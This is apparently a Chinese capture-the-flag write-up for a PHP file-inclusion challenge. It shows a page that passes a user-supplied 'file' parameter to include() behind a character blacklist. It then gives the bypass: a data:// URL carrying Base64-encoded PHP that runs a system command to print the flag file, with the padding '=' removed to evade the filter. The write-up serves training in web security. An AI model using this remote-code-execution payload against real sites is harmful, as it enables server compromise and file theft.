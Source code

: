 # 知识点
### Base64编码为什么会以=号结尾以及+在url传递时会转义位空格的解决方法
[https://blog.csdn.net/weixin_39559282/article/details/114282266](https://blog.csdn.net/weixin_39559282/article/details/114282266)
# 思路
```php
<?php
  
  if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
      die("error");
    }
    include($file);
  }else{
    highlight_file(__FILE__);
}
```
```http
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4= 
//base64编码后后面可能会有=，=是起补充作用无实质意义，删除也无大碍
所以最终payload为
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4
```
![image.png](./images/20231018_0001374292.png)
